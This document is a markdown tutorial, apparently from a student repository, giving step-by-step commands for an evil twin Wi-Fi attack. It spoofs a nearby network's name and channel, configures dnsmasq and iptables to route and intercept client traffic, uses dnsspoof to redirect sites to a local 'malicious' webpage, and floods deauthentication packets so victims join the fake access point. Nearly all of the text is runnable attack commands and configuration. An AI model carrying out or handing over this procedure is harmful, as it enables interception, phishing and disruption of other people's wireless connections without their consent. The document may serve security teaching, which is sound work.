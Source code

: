 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# Prerequisites
- [kali linux](https://www.kali.org/downloads/)
- External [usb wifi adapter](https://www.amazon.com/gp/product/B00H95C0A2/ref=ppx_yo_dt_b_asin_title_o03_s00?ie=UTF8&psc=1) (unless you have a built in wifi card AND ethernet port)
- [Raspberry Pi](https://www.amazon.com/Vilros-Raspberry-Clear-Power-Supply/dp/B07BDRD3LP/ref=sr_1_3?dchild=1&keywords=rasbperry+pi+3b%2B+vilros&qid=1588119918&s=electronics&sr=1-3), this is optional but it is what was used here. A virtual machine or laptop would work as well.
- Aircrack suite
- setoolkit

# Instructions

Note: In this writeup we use wlan1 as our wireless access point and wlan0 as our interface connected to the interet for bridging. If you were using a raspberry pi without a usb wifi adapter you can replace all mentions of `wlan1` for `wlan0` and all mentions of `wlan0` for `eth0` if the raspberry pi is connected to the intert with an ethernet cable.

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	Note that mariadb-server is not required, but it could be used as a mysql server if the attack were expanded to collect credentials.
	
2. Configure dnsmasq  
	dnsmasq is a lightweight DHCP and caching DNS server. It essentially allows us to use our kali box as a router/hotspot.

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

	- interface=at0 						# interface used by airbase-ng
	- dhcp-range=10.0.0.10,10.0.0.250,12h 	# Client IP address range with a default lease of 12 hours
	- dhcp-option=3,10.0.0.1 				# 3 is the default gateway code, followed by the default gateway IP
	- dhcp-option=6,10.0.0.1 				# 6 is the DNS code, followed by the default gateway IP
	- server=8.8.8.8 						# Google's public DNS
	- listen-address=127.0.0.1 				# listens on localhost
	
3. View available network interfaces  
	`iwconfig`  
	You should see several devices such as eth0, wlan0, lo, etc.
	![network interfaces](../screenshots/4.0-iwconfig.png)
	
	Now plug in your usb wireless adapter and run `iwconfig` again. You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	![network interfaces 2](../screenshots/4.1-iwconfig.png)

4. Update NetworkManager.conf  
	`vim /etc/NetworkManager/NetworkManager.conf`

	Add these lines to the end of the file to resolve conflicts between airmon-ng and the NetworkManager. 
	Replace `A2:B2:C2:D2:E2:F2` with the MAC address of the wireless adapter. 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Bring up the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure our network adapter wlan1 is not connected to internet.  
  	`nmcli con`
	If it shows it is connected in the list, disconnect it from the network that is connected to our adapter with:  
	`nmcli con down <UUID>`

7. Put the wireless network interface into monitor mode.
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	![network interfaces](../screenshots/8.0-iwconfig.png)

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID.  
	 - First update known manufacturer MAC addresses of routers:  
	 `airodump-ng-oui-update`

	- Then get a list of all the devices broadcasting around you.  
	`airodump-ng wlan1mon`  
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit  
	`ctrl+c`  
	and then copy the line with the device to attack into a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	![airodump](../screenshots/9.0-airodump.png)

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command:  
	`airodump-ng -d A0:A0:A0:00:00:A0 wlan1mon`  

	Here we can see all the devices and their MAC addresses that are connected to the router we will attack. This can be useful, because it would allow us to attack specific devices if we so chose.
	![devices](../screenshots/10.0-airodump.png)

11. Lets boost our signal strength, to the max legal limit in the US.  
	(Note that not all wireless adapters support this.)
	Devices generally try to connected to the wifi with the greatest strength. This will give us a competive edge.    
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again you can check the signal strength with `iwconfig wlan1mon`  
	The Tx-Power should now read 30 dBm.

12. Start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.  
	`airbase-ng -e "zzzz" -c 11 wlan1mon`  
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. It will have the same name, but not be password protected. You may get an error, but it can be ignored. Devices can now try to connect, but will not have any internet.
	![evil](../screenshots/12-evil_twin.png)

13. Create an bridged interface to give the evil twin connection to the internet.  
	This is the interface airbase-ng uses to provide internet access to the evil twin.
	```
	ifconfig at0
	ifconfig at0 10.0.0.1 up
	```
	Here we assigned at0 the ip address of 10.0.0.1, which is the same as we specified in `dnsmasq.conf`. This will allow at0 to act as the default gateway.

14. Route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line as the `--out-interface` option, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device. These commands will enable NAT by setting some firewall rules in iptables. These commands also enable our Apache (below) webserver to serve our malicious webpage to clients on our network.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. Enable port forwarding  
	This is the switch that turns on internet access for clients connected to the evil twin.
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. Enable the evil twin to allocate ip addresses to clients.  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`  
	 - -C specifies the config file
	 - -d stands for daemon mode
	Congratulations, you have setup a hotspot for yourself. As soon as a client connects you will see output as below. We can start seeing all traffic the client is viewing.  
	![intercept2](../screenshots/16.1-dnsmasq.png)

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage of your design under  
	`/var/www/html/index.html`  
	Start the server:  
	`sudo /etc/init.d/apache2 start`
	
	Here is our example webpage named `index.html`:  
	![index](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/17-index.png)

18. Your apache server is running locally. Record the servers IP address.  
	Either localhost or the devices ip address can be used.  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Spoof some DNS to redirect clients to our Apache server. 
	Create a file `config/dnsspoof.conf`  
	Add urls you want to spoof to it. For example the following line in dnsspoof.conf will redirect anyone trying to visit http://www.example.com to our local apache server:  
	`127.0.0.1	example.com`  
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic. Currently only HTTP sites work, not HTTPS sites. The screenshot shows the client connecting to example.com and getting re-routed to our local server.
	![intercept2](../screenshots/19-spoof.png)


20. Finally deauthorize clients so they connect to our network instead of their legit network.  
	-deauth 0 will run unlimited deauthorization attempts. Since our evil twins network has a stronger signal and clients generally auto-connect to recognized networks, they will be kicked off the valid AP and onto our evil twin.
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`
	![intercept](../screenshots/16-dnsmasq.png)

## Sources
- https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
- https://www.rootsh3ll.com/evil-twin-attack/





